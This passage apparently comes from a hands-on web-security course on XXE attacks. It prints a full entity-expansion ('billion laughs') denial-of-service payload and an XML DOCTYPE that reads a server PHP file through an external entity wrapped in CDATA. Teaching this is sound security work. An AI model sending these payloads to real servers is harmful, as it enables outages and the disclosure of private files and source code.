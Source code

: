 Finally, one common use of XXE attacks is causing a Denial of Service (DOS) to the hosting web server, with the use the following payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the self-reference loops. However, **this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference**. Try it against this exercise, and see if it works.

## Advanced File Disclosure

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an end internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the `&joined;` entity, it should contain our escaped data. However, **this will not work, since XML prevents joining internal and external entities**, so we will have to find a better way to do so.
